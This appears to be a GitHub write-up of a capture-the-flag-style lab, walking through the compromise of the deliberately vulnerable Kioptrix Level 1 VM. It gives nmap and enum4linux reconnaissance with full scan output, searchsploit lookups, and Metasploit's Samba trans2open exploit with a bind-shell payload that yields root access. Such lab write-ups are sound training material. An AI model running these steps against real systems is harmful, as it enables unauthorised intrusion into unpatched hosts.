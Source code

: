 # Kioptrix-Level-1

Kioptrix - 1

Name – Aritrya Paul 

My Setup : 
1) A VMware virtual machine running kali linux
2) Another VM running Kioptrix
3) Both has NAT type Network Adapter

--------------------------------------------------------------------------------------------------------------------------------------------------------------

**STEP 1** - First to check the hosts running on our IP address with the shell command : 
            
            netdiscover

![netdiscover](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/34acb7c8-6efd-44bd-9561-acd384fb4b99)

So, the IP of the host is **192.168.13.131** . 
To check it we can type the command : **enum4linux 192.168.13.131** which shows the information about the target.

![enum4linux](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/06d7cd18-05bd-40cc-ac60-3c3ee9f1b616)



**STEP 2** - I have used Nmap to run a fast/aggression scan over the network. To do so I have used the command : 

        nmap -sS -A 192.168.13.131

![nmap](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/b0a57d33-3e35-41d7-aa30-7fa7605fd588)

*-sS is for TCP SYN scan <br>
*-A Decets OS and Services

I have done a bit more recon and enumeration this time. So, I have done a more thorough scan. So, I have used the command : 

      nmap -p- -T4 -A -O -v 192.168.13.131

**The output of the above scan** : 

Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-28 14:07 IST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:07
Completed NSE at 14:07, 0.00s elapsed
Initiating NSE at 14:07
Completed NSE at 14:07, 0.00s elapsed
Initiating NSE at 14:07
Completed NSE at 14:07, 0.00s elapsed
Initiating ARP Ping Scan at 14:07
Scanning 192.168.13.131 [1 port]
Completed ARP Ping Scan at 14:07, 0.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:07
Completed Parallel DNS resolution of 1 host. at 14:07, 0.02s elapsed
Initiating SYN Stealth Scan at 14:07
Scanning 192.168.13.131 [65535 ports]
Discovered open port 139/tcp on 192.168.13.131
Discovered open port 80/tcp on 192.168.13.131
Discovered open port 22/tcp on 192.168.13.131
Discovered open port 443/tcp on 192.168.13.131
Discovered open port 111/tcp on 192.168.13.131
Discovered open port 1024/tcp on 192.168.13.131
Completed SYN Stealth Scan at 14:07, 7.64s elapsed (65535 total ports)
Initiating Service scan at 14:07
Scanning 6 services on 192.168.13.131
Completed Service scan at 14:07, 11.03s elapsed (6 services on 1 host)
Initiating OS detection (try #1) against 192.168.13.131
NSE: Script scanning 192.168.13.131.
Initiating NSE at 14:07
Completed NSE at 14:08, 10.51s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.10s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Nmap scan report for 192.168.13.131
Host is up (0.00097s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1024/tcp   status
|_  100024  1           1024/udp   status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_ssl-date: 2023-09-28T08:39:54+00:00; +1m52s from scanner time.
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
| http-methods: 
|_  Supported Methods: GET HEAD POST
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-09-26T09:32:06
| Not valid after:  2010-09-26T09:32:06
| MD5:   78ce:5293:4723:e7fe:c28d:74ab:42d7:02f1
|_SHA-1: 9c42:91c3:bed2:a95b:983d:10ac:f766:ecb9:8766:1d33
|_http-title: 400 Bad Request
1024/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:2E:A7:98 (VMware)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Uptime guess: 0.036 days (since Thu Sep 28 13:15:35 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=201 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX<00>         Flags: <unique><active>
|   KIOPTRIX<03>         Flags: <unique><active>
|   KIOPTRIX<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   MYGROUP<00>          Flags: <group><active>
|   MYGROUP<1d>          Flags: <unique><active>
|_  MYGROUP<1e>          Flags: <group><active>
|_clock-skew: 1m51s

TRACEROUTE
HOP RTT     ADDRESS
1   0.97 ms 192.168.13.131

NSE: Script Post-scanning.
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.99 seconds
           Raw packets sent: 65555 (2.885MB) | Rcvd: 65551 (2.623MB)



Here, To start with HTTP/S. We have both the ports open. **Port 80** is for **http** and **port 443** for **https**. Other findings : 
1] Apache/1.3.20 (Unix)
2] mod_ssl/2.8.4
3] OpenSSL/0.9.6b

I have also got the **Samba port:139**.

I have also got **port 22: the SSH port**. Other findings : 
1] OpenSSH 2.9p2 (protocol 1.99)
2] Sshv1: Server support SSHv1

From the above output we can see that the process is running in netbios-ssn Samba but no exact version is described.



**STEP 3** - I have used searchsploit on openssh 2.9 and Apache 1.2.30 by the command : 

           searchsploit openssh 2.9

![searchsploit openssh](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/c2f51931-ab58-4c9f-839e-5e1db66208d1)

But there was many exploits but not in any specific version which is openssh 2.9 . So, this will not be the case.

Again, 

           Searchsploit Apache 1.3.20 

![searchsploit Apache](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/59640a9f-e530-476d-8fcf-cc35e311afd0)

Here, I found 2 exploits of version 1.3.20 but both are for windows. So, this will also not be the case because our target machine platform is linux based.



STEP 4 - By this I came to understand that our next exploitation will be on Samba. For this I have used Metasploit Framework. To access Metasploit in Kali Linux type :

             msfconsole


             
STEP 5 - Now, to see the available modules in metasploit of Samba by the command : 

             search samba 

![search samba](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/ede8a97d-2fec-4a79-882e-e2ee0e51341c)

I have used **exploit/linux/samba/trans2open** module whose rank is excellent. By typing **info** I get to know that the module requires only **RHOSTS** and **RPORT**.

I set the RHOSTS to 192.168.13.131 and the RPORT to 139 which is for the target TCP port and finally to exploit.

Next, I set the PAYLOAD to handle the session by the command : 

     set payload linux/x86/shell_bind_tcp 

By this I got access to the command shell of the target machine.

![exploit](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/2e7d8d49-fb7c-45db-bbeb-c79201a37f76)

Here, I typed **whoami** to know the root and **/bin/bash -i** to get the terminal of the kioptrix.










                                   








